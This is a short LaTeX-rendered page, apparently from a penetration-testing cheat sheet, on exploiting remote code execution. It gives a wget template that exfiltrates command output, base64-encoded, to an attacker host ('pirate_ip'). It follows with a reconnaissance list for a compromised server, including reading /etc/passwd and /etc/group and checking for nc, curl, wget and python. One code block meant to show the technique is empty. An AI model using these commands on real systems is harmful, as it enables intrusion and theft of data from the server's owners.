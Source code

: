 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{quote}
{[} ! {]} NOTE: for big files or also for php files use the \textbar{} base64 command
\texttt{wget\ http://\textless{}pirate\_ip\textgreater{}:443/\textasciigrave{}id\textbar{}base64\textasciigrave{}}
\end{quote}

\hypertarget{visible-remote-code-execution}{%
\chapter*{Visible remote code execution}\label{visible-remote-code-execution}}

\textbf{Visible remote code execution} can be performed with code looking like that:

\begin{Shaded}
\end{Shaded}

When the remote code execution response is visible, there are some things to check:

\begin{itemize}
\tightlist
\item
  Which user serves the service\\
\item
  Where\\
\item
  Interesting files content\\
\item
  Binaries
\end{itemize}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{ifconfig}
\FunctionTok{whoami}
\FunctionTok{id}
\BuiltInTok{pwd}
\FunctionTok{cat}\NormalTok{ /etc/passwd}
\FunctionTok{cat}\NormalTok{ /etc/group}
\FunctionTok{which}\NormalTok{ python}
\FunctionTok{which}\NormalTok{ curl}
\FunctionTok{which}\NormalTok{ nc}
\FunctionTok{which}\NormalTok{ wget}
\end{Highlighting}
\end{Shaded}
\end{document}
